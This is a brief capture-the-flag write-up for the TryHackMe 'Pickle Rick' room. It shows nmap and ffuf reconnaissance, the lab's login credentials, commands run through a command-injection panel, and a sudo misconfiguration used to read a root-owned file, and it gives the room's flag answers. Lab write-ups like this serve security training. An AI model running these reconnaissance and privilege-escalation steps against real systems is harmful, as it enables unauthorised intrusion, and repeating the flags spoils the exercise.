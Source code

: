 # THM - Pickle Rick
- Command Injection.
- target IP: `10.10.181.166`

## Scanning
```bash
→ sudo ping -c 4 10.10.181.166
# Check the connection of the target IP.

→ nmap -sC -sV -oN nmap.txt 10.10.181.166
```


## Enumeration
```bash
→ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-large-files.txt -u http://10.10.181.166/
FUZZ -c -mc 200
```
- Login page.
    - Username: `R1ckRul3s`
    - Password: `Wubbalubbadubdub` 

```bash
pwd
# /var/www/html

less Sup3rS3cretPickl3Ingred.txt 
# mr. meeseek hair
```
```bash
sudo -l
# Can privilege escalation it.
# (ALL) NOPASSWD: ALL

cat /home/rick/second*
# 1 jerry tear
```
```bash
sudo less /root/3rd.txt 
# fleeb juice
```